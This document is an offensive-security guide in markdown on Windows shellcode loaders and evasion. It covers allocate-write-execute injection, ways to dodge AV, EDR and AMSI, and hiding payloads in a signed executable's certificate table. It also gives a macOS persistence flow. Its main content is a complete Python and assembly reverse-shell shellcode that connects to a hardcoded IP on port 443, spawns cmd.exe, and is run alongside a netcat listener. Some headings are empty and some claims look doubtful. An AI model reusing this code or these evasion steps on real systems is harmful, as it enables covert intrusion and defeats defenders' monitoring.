


# Shellcode

## Introduction to Shellcode

Shellcode is machine code that executes specific operations when injected into a target process's memory. It typically serves as the payload in exploits, performing actions like opening a command shell, establishing network connections, or executing arbitrary commands.

## Basic Shellcode Concepts

### Shellcode Execution Pattern

- Shellcode injection follows the "Allocate-Write-Execute" pattern:

  1. Allocate RWX memory with size of shellcode
  2. Write shellcode to allocated memory
  3. Execute the content of allocated memory

- Avoid direct `PAGE_EXECUTE_READWRITE` allocation as it's easily flagged. Better to:
  1. Allocate with `PAGE_READWRITE`
  2. Write payload
  3. Change protection to executable

### Position-Independent Code Techniques



## Shellcode Development Process



### API Resolution for Windows Shellcode

identifying `kernel32.dll`:

- get `PEB->Ldr.InMemoryOrderModuleList`
- iterate through `PEB->Ldr.InMemoryOrderModuleList`; the first entry is the exe, followed by `ntdll.dll`, and then `kernel32.dll` (Win10/11 +). Hash-compare names to locate it
- parse export address table
- loop over export address table to find `GetProcAddress` name
- get function ordinal and then address ( you have access to `GetProcAddress` now)
- ensure `GetProcAddress` is available before resolving `LoadLibraryA`; both can be fetched in the same enumeration loop
- resolve `LoadLibraryA` using `GetProcAddress` and call it on `WS2_32.dll`
- get and call `WSAStartup`
- lookup `WSASocketA` and create a socket with it
- lookup `WSAConnect` and connect to the socket
- find the address for `CreateProcessA` from `kernel32.dll` again
- push `cmd.exe` to stack, fill `STARTUPINFOA` and call `CreateProcessA`
- use a `nc -nvv -p 443 -l` on your own machine and run the shellcode to connect back to it
- p.s: don't forget to fix the IP and port

```bash
# get the PEB addr
dt nt!_TEB -y ProcessEnvironmentBlock @$teb
# get Ldr addr
dt nt!_PEB -y Ldr <peb_addr>
# list loaded module linked lists
dt -r _PEB_LDR_DATA <ldr_addr>
# DllBase and FullDllName will help you here
dt _LDR_DATA_TABLE_ENTRY (<intialization_flink_addr> - 0x10)
# verify after running the python code below
lm m kernel32
r @r8
```

### Shellcode Execution Flow (Windows)


## Shellcode Loaders

Shellcode loaders typically follow this pattern:

```c
char *shellcode = "\xAA\xBB...";
char *dest = VirtualAlloc(NULL, 0x1234, 0x3000, p_RW);
memcpy(dest, shellcode, 0x1234)
VirtualProtect(dest, 0x1234, p_RX, &result)
(*(void(*)())(dest))();  // jump to dest: execute shellcode
```

### Loader Implementation

#### Meet Shellcode Loader

- Takes shellcode as input, verifies environment, injects it if all is good
- Responsible for evading sandboxes, proxies, AV, EDR, and safely landing in a machine
- Environment verification/keying, careful shellcode decryption
- Ends its duties after injecting shellcode
- Injection targets:
  - Self process
  - Other process
- Vulnerable to automated-detonation/sandboxes
- Loader might reside in:
  - Process tree
  - Process modules list
- Recommended languages:
  - Rust (secure, but larger binaries can stand out)
  - Nim
  - Go (runtime signature easily flagged)
  - Zig (small, no runtime, clean FFI)
  - Carbon preview (experimental, minimal footprint)

#### Allocation Phase

- Linear, big enough R+X memory region options:
  - New memory region/section
  - Code caves
  - Stack, heap (after adjusting page permissions + disabling DEP)
  - Keep memory regions small/separate
- Typical allocation techniques:
  - `VirtualAllocEx` / `NtAllocateVirtualMemory`
  - `ZwCreateSection` + `NtMapViewOfSection`
- Best practice - avoid `RWX` allocations:
  1. Allocate `RW`
  2. Write shellcode
  3. Use `VirtualProtectEx` to switch to `RX`

#### Write Phase

- Typical write techniques:
  - `WriteProcessMemory` / `NtWriteVirtualMemory`
  - `memcpy` to mapped section
  - Atom bombing (loud and unreliable)
- Evasion strategies:
  - Prepend shellcode with dummy machine opcodes
  - Split shellcode into chunks and write in randomized order
  - Apply delays between consecutive writes

#### Execute Phase

- Most fragile step in the process:
  - New thread introduced, so EDR closely inspects starting point
  - EDR might check if starting function is in image-backed memory (e.g., `ntdll.dll`)
- Typical execution techniques:
  - `CreateRemoteThread` / `ZwCreateThreadEx`
  - `NtSetContextThread`
  - `NtQueueApcThreadEx`
  - API function hooks / trampolines
- Indirect shellcode execution via Windows API:
  - [FlavorTown](https://github.com/Wra7h/FlavorTown)
  - [AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
  - [ThreadLess](https://github.com/caueb/ThreadlessC)
- Some EDRs might spoof Thread Execution Block or `ntdll.dll` to detect if the process is attempting to modify them

### Exec/DLL to Shellcode Conversion

- Embedding shellcode into a shellcode loader executable
- Backdooring legitimate PE executables with shellcode
- Tools for conversion:
  - [Donut](https://github.com/TheWover/donut/tree/master) - Converts PE files (EXE/DLL) to shellcode
  - [sRDI](https://github.com/monoxgas/sRDI) - Converts DLLs to position-independent shellcode
  - [Pe2shc](https://github.com/hasherezade/pe_to_shellcode) - Converts PE files to shellcode
  - [Amber](https://github.com/EgeBalci/amber) - Reflective PE packer/loader
- Open-source shellcode loaders:
  - [ScareCrow](https://github.com/optiv/ScareCrow)
  - [NimPackt-v1](https://github.com/chvancooten/NimPackt-v1)
  - Polonium (APT implant; useful for studying advanced persistent techniques rather than as a generic open-source loader base)
  - [NullGate](https://github.com/specterops/NullGate) – indirect syscalls & junk-write sequencing
  - [Ghost](https://github.com/cryptomancer/ghost) – fiber spoofing & ETW patching
  - [ThreadlessInject](https://github.com/epi052/ThreadlessInject) – injection without new threads
  - Direct-syscall helpers (e.g., SysWhispers3, FreshyCalls) are now baseline requirements
  - [Ghost v3.2](https://github.com/cryptomancer/ghost/releases/tag/v3.2) – fiber spoofing & ETW patching
  - [ThreadlessInject v1.1](https://github.com/epi052/ThreadlessInject/releases/tag/v1.1) – injection without new threads
- [ProtectMyTooling](https://github.com/mgeeky/ProtectMyTooling) - Tool to daisy-chain protections

## Cross‑Platform Considerations

### Windows on ARM64 (WoA)

- Snapdragon X Elite and Surface Pro 10 ship with WoA. Syscalls use `SVC 0` and the ARM64 table in `ntdll!KiServiceTableArm64`.
- Pointer Authentication (PAC) signs the LR value; avoid stack pivots or re‑sign the new target with `PACIASP`.
- Example loader: `examples/woa_loader.s`.

### Linux 6.9+: eBPF Arena & BPF Tokens

- Kernel 6.9 introduces **BPF tokens** and a shared **BPF arena** (`BPF_MAP_TYPE_ARENA`) that can hold executable memory.
- Hide shellcode chunks in an arena map and call them via `bpf_prog_run_pin_on_cpu`.
- Demo: `examples/ebpf_arena_loader.c`.

### macOS Signed System Volume (SSV)

- macOS 12+ seals the system partition; unsigned payloads can't live there.
- Persistence flow:
  1. Create a sealed‑system snapshot (`bless --mount … --create-snapshot`).
  2. Mount snapshot read‑write, inject payload, resign with `kmutil`, and bless the new snapshot.
- User space: use launch agents or dylib hijacks in `/Library/Apple/System/Library/Dyld/`.

## Shellcode Storage & Hiding Techniques

### Storage Options

- **Hardcoded**:
  - Shellcode stored in code requires recompilation before use
  - Typically stored in `RW/RO` section
- **PE Resources**:
  - Can use `RCDATA` binary blobs
  - Most extensively scanned by AV
- **Additional PE Section**:
  - Stored in additional `R+X` section
  - Use second-to-last / N-to-last section
- **Acquired from internet**:
  - Example tool: [CSharpShooter](https://github.com/mdsecactivebreach/SharpShooter)
- **Certificate Table** (highly recommended):
  - Patch the PE file by padding Certificate Table with shellcode bytes and update PE headers
  - Example: Embed shellcode in `teams.exe`, backdoor `ffmpeg.dll` with shellcode-loader
  - Shellcode loader finds & loads shellcode inside memory
  - This keeps `teams.exe` signature intact and only breaks `ffmpeg.dll` signature
  - When `teams.exe` starts, it loads `ffmpeg.dll`, which in turn loads the shellcode from teams.exe's certificate table
- **Legitimate PE backdoored** with shellcode & loader

### Protection Methods

Shellcode should be protected using:

- Compression (`LZMA`)
- Encryption/encoding (`XOR32/RC4/AES`)

## Evasion Techniques

### Progressive Evasion Techniques

For shellcode execution with increasing evasion capability:

1. Begin with basic shellcode execution
2. Add encryption/obfuscation
3. Implement direct syscalls to bypass monitoring
4. Move to remote process injection when needed

### Windows Defender Evasion

#### Shellcode Evasion Tools

- Available at [github.com/hackmosphere/DefenderBypass](https://github.com/hackmosphere/DefenderBypass):
  - **myEncoder3.py** - Transforms binary files to hex and applies XOR encryption
  - **InjectBasic.cpp** - Basic shellcode injector in C++
  - **InjectCryptXOR.cpp** - Adds XOR decryption for encrypted shellcode
  - **InjectSyscall-LocalProcess.cpp** - Uses direct syscalls to bypass userland hooks, removes suspicious functions from IAT
  - **InjectSyscall-RemoteProcess.cpp** - Injects shellcode into remote processes
  - Windows 11 version 24H2 introduces AMSI heap scanning; allocate with `PAGE_NOACCESS`, decrypt in place, then switch to `PAGE_EXECUTE_READ` to avoid live-heap scans

### Local vs Remote Injection

- Remote injection faces multiple technical challenges:
  - Enforced defenses (`CFG`, `CIG`)
  - Event tracing in Windows (`ETW`)
  - More closely monitored steps: open process handle, allocate, write, execute
- Remote injection detection points:
  - ETW Ti feeds
  - EDR hooks and sensors
  - Back-tracing thread's call stack (was `NtOpenProcess` invoked from a trusted thread?)

## Advanced Implementations

### DripLoader Technique

- Code available at [github.com/xuanxuan0/DripLoader](https://github.com/xuanxuan0/DripLoader)
- Implementation details:
  - Reserves enough 64KB big chunks with `NO_ACCESS`
  - Allocates chunks of `Read+Write` memory in that reserved pool, 4KB each
  - Writes shellcode in chunks in randomized order
  - Re-protects into `Read+Exec`
  - Overwrites prologue of `ntdll!RtlpWow64CtxFromAmd64` with a `JMP` trampoline to shellcode
  - Uses direct syscalls to call out to `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtCreateThreadEx`

## Practical Examples

### Reverse Shell Shellcode Implementation

```python
import ctypes, struct
from keystone import *

CODE = (
# Locate kernel32 Base Address
    " start:                         "
    "   add rsp, 0xfffffffffffffdf8 ;" # Avoid Null Byte and make some space
    " find_kernel32:                 "
    "   int3                        ;" # Windbg, enable only on debugging
    "   xor rcx, rcx                ;"
    "   mov rax, gs:[rcx + 0x60]    ;" # RAX = &(PEB) [(FS:0x60)]
    "   mov rax, [rax + 0x18]       ;" # RAX = PEB->Ldr
    "   mov rsi, [rax + 0x20]       ;" # RSI = PEB->Ldr.InMemoryOrderModuleList
    "   lodsq                       ;"
    "   xchg rax, rsi               ;"
    "   lodsq                       ;"
    "   mov rbx, [rax + 0x20]       ;" # RBX = Kernel32 base address
    "   mov r8, rbx                 ;" # Copy Kernel32 base address to R8 register
# Parse Export Address Table
    "   mov ebx, [rbx+0x3C]         ;" # EBX = Kernel32 PE Signature (offset 0x3C)
    "   add rbx, r8                 ;" # RBX = kernel32 base address + defrerenced signature offset
    "   xor r12,r12                 ;"
    "   add r12, 0x88FFFFF          ;"
    "   shr r12, 0x14               ;"
    "   mov edx, [rbx+r12]          ;" # export address table offset
    "   add rdx, r8                 ;" # RDX = kernel32.dll + RVA ExportTable = ExportTable Address
    "   mov r10d, [rdx+0x14]        ;" # Number of functions
    "   xor r11, r11                ;"
    "   mov r11d, [rdx+0x20]        ;" # AddressOfNames RVA
    "   add r11, r8                 ;" # AddressOfNames VMA
# Find GetProcAddress Name
    "   mov rcx, r10                ;"
    " k32findfunction:               "
    "   jecxz functionfound         ;" # Loop until we match 'GetProcAddress'
    "   xor ebx,ebx                 ;"
    "   mov ebx, [r11+4+rcx*4]      ;" # EBX = RVA for first AddressOfName
    "   add rbx, r8                 ;" # RBX = Function name VMA
    "   dec rcx                     ;"
    "   mov rax, 0x41636f7250746547 ;" # GetProcA
    "   cmp [rbx], rax              ;" # Check if we found GetProcA
    "   jnz k32findfunction         ;"
# Get function address
    " functionfound:                 "
    "   xor r11, r11                ;"
    "   mov r11d, [rdx+0x24]        ;"
    "   add r11, r8                 ;"
    "   inc rcx                     ;"
    "   mov r13w, [r11+rcx*2]       ;" # AddressOfNameOrdinals + Counter. RCX = counter
    "   xor r11, r11                ;"
    "   mov r11d, [rdx+0x1c]        ;"
    "   add r11, r8                 ;" # AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
    "   mov eax, [r11+4+r13*4]      ;"
    "   add rax, r8                 ;" # Add base address to function RVA
    "   mov r14, rax                ;" # GetProcAddress to R14
# Resolve LoadLibraryA using GetProcAddress
    "   mov rcx, 0x41797261         ;"
    "   push rcx                    ;"
    "   mov rcx, 0x7262694c64616f4c ;"
    "   push rcx                    ;"
    "   mov rdx, rsp                ;" # LoadLibraryA into RDX
    "   mov rcx, r8                 ;" # Copy Kernel32 base address to RCX
    "   sub rsp, 0x30               ;"
    "   call r14                    ;" # Call GetProcessAddress
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
    "   mov rsi, rax                ;" # Save the address of loadlibrary in RSI
# Call LoadLibraryA on WS2_32.DLL
    "   xor rax, rax                ;"
    "   mov rax, 0x6C6C             ;"
    "   push rax                    ;"
    "   mov rax, 0x642E32335F325357 ;"
    "   push rax                    ;"
    "   mov rcx, rsp                ;"
    "   sub rsp, 0x30               ;"
    "   call rsi                    ;" # Call LoadLibraryA
    "   mov r15, rax                ;"
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
# Get WSAStartup Address
    "   mov rax, 0x7075             ;"
    "   push rax                    ;"
    "   mov rax, 0x7472617453415357 ;"
    "   push rax                    ;"
    "   mov rdx, rsp                ;" # WSAStartup into RDX
    "   mov rcx, r15                ;" # Copy WS2_32 base address to RCX
    "   sub rsp, 0x30               ;"
    "   call r14                    ;" # Call GetProcessAddress
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
    "   mov r12, rax                ;" # Save the address of WSAStartup in RSI
# Call WSAStartup
    "   xor rcx,rcx                 ;"
    "   mov cx,408                  ;"
    "   sub rsp,rcx                 ;"
    "   lea rdx,[rsp]               ;" # lpWSAData [out]
    "   mov cx,514                  ;" # wVersionRequired
    "   sub rsp,88                  ;"
    "   call r12                    ;" # Call WSAStartup
# Lookup WSASocketA Address
    "   mov rax, 0x4174             ;"
    "   push rax                    ;"
    "   mov rax, 0x656b636f53415357 ;"
    "   push rax                    ;"
    "   mov rdx, rsp                ;" # WSASocketA into RDX
    "   mov rcx, r15                ;" # Copy WS2_32 base address to RCX
    "   sub rsp, 0x30               ;"
    "   call r14                    ;" # Call GetProcessAddress
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
    "   mov r12, rax                ;" # Save the address of WSASocketA in RSI
# Create a socket with WSASocketA
    "   sub rsp,0x208               ;"
    "   xor rdx, rdx                ;"
    "   sub rsp, 88                 ;"
    "   mov [rsp+32], rdx           ;"
    "   mov [rsp+40], rdx           ;"
    "   inc rdx                     ;"
    "   mov rcx, rdx                ;"
    "   inc rcx                     ;"
    "   xor r8,r8                   ;"
    "   add r8,6                    ;"
    "   xor r9,r9                   ;"
    "   mov r9w,98*4                ;"
    "   mov ebx,[r15+r9]            ;"
    "   xor r9,r9                   ;"
    "   call r12                    ;"
    "   mov r13, rax                ;"
    "   add rsp, 0x208              ;"
# Lookup WSAConnect Address
    "   mov rax, 0x7463             ;"
    "   push rax                    ;"
    "   mov rax, 0x656e6e6f43415357 ;"
    "   push rax                    ;" # WSAConnect
    "   mov rdx, rsp                ;" # WSAConnect into RDX
    "   mov rcx, r15                ;" # Copy WS2_32 base address to RCX
    "   sub rsp, 0x30               ;"
    "   call r14                    ;" # Call GetProcessAddress
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
    "   mov r12, rax                ;"
# Call WSAConnect...
    "   mov rcx, r13                ;" # Our socket handle as parameter 1
    "   sub rsp,0x208               ;"
    "   xor rax,rax                 ;"
    "   inc rax                     ;"
    "   inc rax                     ;"
    "   mov [rsp], rax              ;" # AF_INET = 2
    "   mov rax, 0xbb01             ;" # Port 443
    "   mov [rsp+2], rax            ;"
    "   mov rax, 0x31061fac         ;" # IP 172.31.6.49
    "   mov [rsp+4], rax            ;"
    "   lea rdx,[rsp]               ;"
    "   mov r8, 0x16                ;"
    "   xor r9,r9                   ;"
    "   push r9                     ;" # NULL lpCallerData
    "   push r9                     ;" # NULL lpCallerData
    "   push r9                     ;" # NULL lpSQOS
    "   sub rsp, 0x88               ;" # NULL lpSQOS
    "   call r12                    ;" # Call WSAConnect
# Find CreateProcessA address in kernel32.dll
# Lookup Kernel32 base address again...
    "   xor rcx, rcx                ;"
    "   mov rax, gs:[rcx + 0x60]    ;"
    "   mov rax, [rax + 0x18]       ;"
    "   mov rsi, [rax + 0x20]       ;"
    "   lodsq                       ;"
    "   xchg rax, rsi               ;"
    "   lodsq                       ;"
    "   mov rbx, [rax + 0x20]       ;"
    "   mov r8, rbx                 ;" # Copy Kernel32 base address to R8 register
# Find address for CreateProcessA. Store in R12 (previously stored WSAConnect)
    "   mov rax, 0x41737365636f     ;"
    "   push rax                    ;"
    "   mov rax, 0x7250657461657243 ;"
    "   push rax                    ;" # CreateProcessA
    "   mov rdx, rsp                ;"
    "   mov rcx, r8                 ;" # Copy Kernel32 base address to RCX
    "   sub rsp, 0x30               ;"
    "   call r14                    ;" # Call GetProcessAddress
    "   add rsp, 0x30               ;"
    "   add rsp, 0x10               ;"
    "   mov r12, rax                ;"
# Push cmd.exe string to stack
    "   mov rax, 0x6578652e646d63   ;"
    "   push rax                    ;"
    "   mov rcx, rsp                ;" # RCX = lpApplicationName (cmd.exe)
# STARTUPINFOA Structure
    "   push r13                    ;" # Push STDERROR
    "   push r13                    ;" # Push STDOUTPUT
    "   push r13                    ;" # Push STDINPUT
    "   xor rax,rax                 ;"
    "   push ax                     ;"
    "   push rax                    ;"
    "   push rax                    ;"
    "   mov rax, 0x100              ;"
    "   push ax                     ;"
    "   xor rax,rax                 ;"
    "   push ax                     ;"
    "   push ax                     ;"
    "   push rax                    ;"
    "   push rax                    ;" # dwXSize = NULL
    "   push rax                    ;" # dwY = NULL
    "   push rax                    ;" # dwX = NULL
    "   push rax                    ;" # lpDesktop = NULL
    "   push rax                    ;" # lpReserved = NULL
    "   mov rax, 0x68               ;"
    "   push rax                    ;" # SizeOfStruct = 0x68
    "   mov rdi,rsp                 ;" # Copy the Pointer to RDI
# Call CreateProcessA
    "   mov rax, rsp                ;" # Get current stack pointer
    "   sub rax, 0x500              ;"
    "   push rax                    ;" # ProcessInfo
    "   push rdi                    ;" # StartupInfo = Pointer to STARTUPINFOA
    "   xor rax, rax                ;"
    "   push rax                    ;" # lpCurrentDirectory = NULL
    "   push rax                    ;" # lpEnvironment = NULL
    "   push rax                    ;"
    "   inc rax                     ;"
    "   push rax                    ;" # bInheritHandles = 1
    "   xor rax, rax                ;"
    "   push rax                    ;"
    "   push rax                    ;"
    "   push rax                    ;"
    "   push rax                    ;" # dwCreationFlags = NULL
    "   mov r8, rax                 ;" # lpThreadAttributes = NULL
    "   mov r9, rax                 ;" # lpProcessAttributes = NULL
    "   mov rdx, rcx                ;" # lpCommandLine = "cmd.exe" string
    "   mov rcx, rax                ;" # lpApplicationName = NULL
    "   call r12                    ;" # Call CreateProcessA
)

ks = Ks(KS_ARCH_X86, KS_MODE_64)
encoding, count = ks.asm(CODE)
print("Encoded %d instructions..." % count)

sh = b""
for e in encoding:
    sh += struct.pack("B", e)
shellcode = bytearray(sh)

ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
ctypes.windll.kernel32.RtlCopyMemory.argtypes = (ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t)
ctypes.windll.kernel32.CreateThread.argtypes = (
    ctypes.c_int,
    ctypes.c_int,
    ctypes.c_void_p,
    ctypes.c_int,
    ctypes.c_int,
    ctypes.POINTER(ctypes.c_int),
)

ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40)
)

buf = (ctypes.c_char * len(shellcode)).from_buffer_copy(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(ptr), buf, ctypes.c_int(len(shellcode)))

print("Shellcode located at address %s" % hex(ptr))
input("...ENTER TO EXECUTE SHELLCODE...")

ht = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0)),
)
ctypes.windll.kernel32.WaitForSingleObject(ht, -1)
```

> [!TIP]
> Windows 11 23H2 blocks outbound TCP 443/4444 to local subnets (only when Smart App Control policy is set to _Block_). Choose a non‑standard port or use a named‑pipe payload.
